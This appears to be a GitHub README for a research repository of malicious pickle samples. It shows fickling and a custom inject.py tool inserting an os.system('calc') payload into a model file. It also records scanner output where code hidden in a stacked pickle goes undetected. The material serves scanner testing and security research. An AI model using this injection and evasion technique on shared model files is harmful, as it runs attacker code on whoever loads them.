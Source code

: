 # MaliciousPickles
Some examples of Malicious Pickles

## TextEmbedding.pt
Stollen from https://catalog.ngc.nvidia.com/orgs/nvidia/models/tacotron2_ljspeech/files
I picked this because it's small and an exmaple of pickles being stacked. This is the "assumed" benign sample

### Loading the pickle
``` python
import pickle
f  = open("TextEmbedding.pt",'rb')
pickle.load(f)
pickle.load(f)
pickle.load(f)
import pickletools
pickletools.dis(f) # this doesn't execute the pickle, but advances the file pointer past a part that rquires a special library
pickle.load(f)
```

## fickling_system_calc.pt
This is what is created by `fickling -i "exec('import os; os.system(\"calc\")')" TextEmbedding.pt > fickling_system_calc.pt`. It will launch calc when the pickle is loaded.
**Note:** Fickling by default only opens the first pickle, so most of the original is lost. This is tracked by https://github.com/trailofbits/fickling/issues/20

```bash
> fickling -s fickling_system_calc.pt
Call to `eval(...)` is almost certainly evidence of a malicious pickle file
```

## coldwaterq_inject_calc.pt
This is what is created using my inject.py that I released durring a presentation I did at DefCon. `python ..\PICKLE_INJECTOR\inject.py TextEmbedding.pt coldwaterq_inject_calc.pt test.py` will show an error, `at position 449, opcode b'\x00' unknown` this is because the end of the file isn't a pickle, but I haven't bothered to figure out what it is, because everything before that is a pickle that can be injected into.

```bash
> fickling -s coldwaterq_inject_calc.pt
Warning: Fickling failed to detect any overtly unsafe code, but the pickle file may still be unsafe.

Do not unpickle this file if it is from an untrusted source!
```

You can see that this isn't detected because fickling is only checking the first pickle since the next one is caught.

## coldwaterq_inject_first_calc.pt
inject.py was modified to ensure the malicious code was injected into the fist pickle. But essentially `python ..\PICKLE_INJECTOR\inject.py TextEmbedding.pt coldwaterq_inject_first_calc.pt test.py` was used and everything was the same as coldwaterq_inject_calc.pt.

```bash
> fickling -s .\coldwaterq_inject_first_calc.pt
Call to `exec(_var0)` is almost certainly evidence of a malicious pickle file
```
